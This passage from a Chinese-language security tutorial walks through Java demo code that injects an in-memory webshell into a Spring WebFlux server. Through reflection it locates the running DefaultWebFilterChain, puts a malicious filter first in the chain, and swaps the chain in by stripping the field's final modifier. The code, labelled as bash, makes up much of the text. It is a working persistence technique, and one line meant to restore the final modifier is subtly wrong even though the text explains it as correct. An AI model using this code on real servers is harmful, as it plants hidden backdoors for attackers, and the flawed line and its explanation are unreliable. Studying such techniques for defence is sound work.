 ### 4.3.2 Spring WebFlux 内存马 demo 代码分析

从之前的分析我们知道，主要思路就是通过反射找到`DefaultWebFilterChain`，然后拿到`filters`，把我们的`filter`插入到其中的第一位，再用这个`filters`重新调用公共构造函数`DefaultWebFilterChain`，赋值给之前分析里面我没看到的`this.chain`即可。

思路就是这么个思路，我们来看具体的代码。

先是通过反射来获取当前运行的所有线程组，然后遍历线程数组，检查每个线程是否为`NettyWebServer`实例。如果发现一个线程是`NettyWebServer`，那就继续下一步的操作。接下来就是找`DefaultWebFilterChain`对象：

```bash
NettyWebServer nettyWebServer = (NettyWebServer) getFieldValue(thread, "this$0", false);
ReactorHttpHandlerAdapter reactorHttpHandlerAdapter = (ReactorHttpHandlerAdapter) getFieldValue(nettyWebServer, "handler", false);
Object delayedInitializationHttpHandler = getFieldValue(reactorHttpHandlerAdapter,"httpHandler", false);
HttpWebHandlerAdapter httpWebHandlerAdapter = (HttpWebHandlerAdapter) getFieldValue(delayedInitializationHttpHandler,"delegate", false);
ExceptionHandlingWebHandler exceptionHandlingWebHandler = (ExceptionHandlingWebHandler) getFieldValue(httpWebHandlerAdapter,"delegate", true);
FilteringWebHandler filteringWebHandler = (FilteringWebHandler) getFieldValue(exceptionHandlingWebHandler,"delegate", true);
DefaultWebFilterChain defaultWebFilterChain = (DefaultWebFilterChain) getFieldValue(filteringWebHandler,"chain", false);
```

这条链子在之前的分析中已经提到过，一步步调用我们写的`getFieldValue`函数即可。

然后就是修改这个过滤器链，添加我们自定义的恶意 filter，并把它放到第一位：

```bash
Object handler = getFieldValue(defaultWebFilterChain, "handler", false);
List<WebFilter> newAllFilters = new ArrayList<>(defaultWebFilterChain.getFilters());
newAllFilters.add(0, new MemoryShellFilter());
DefaultWebFilterChain newChain = new DefaultWebFilterChain((WebHandler) handler, newAllFilters);
```

然后通过反射获取`FilteringWebHandler`的私有字段`chain`，设置为可访问之后，通过反射将原始的过滤器链替换为新创建的过滤器链`newChain`，然后恢复字段的可访问权限：

```bash
Field f = filteringWebHandler.getClass().getDeclaredField("chain");
f.setAccessible(true);
Field modifersField = Field.class.getDeclaredField("modifiers");
modifersField.setAccessible(true);
modifersField.setInt(f, f.getModifiers() & ~Modifier.FINAL);
f.set(filteringWebHandler, newChain);
modifersField.setInt(f, f.getModifiers() & Modifier.FINAL);
```

这里补充一下上面的`modifersField.setInt(f, f.getModifiers() & ~Modifier.FINAL);`和`modifersField.setInt(f, f.getModifiers() & Modifier.FINAL);`的含义，第一个代码意思就是使用反射机制，通过`modifersField`对象来修改字段的修饰符，`f.getModifiers()`返回字段`f`的当前修饰符，然后通过位运算`& ~Modifier.FINAL`，将当前修饰符的`FINAL`位清除（置为`0`），表示移除了`FINAL`修饰符；第二个则是把字段的修饰符重新设置为包含`FINAL`修饰符的修饰符，这样就可以保持字段的封装性。

# 五、中间件型内存马
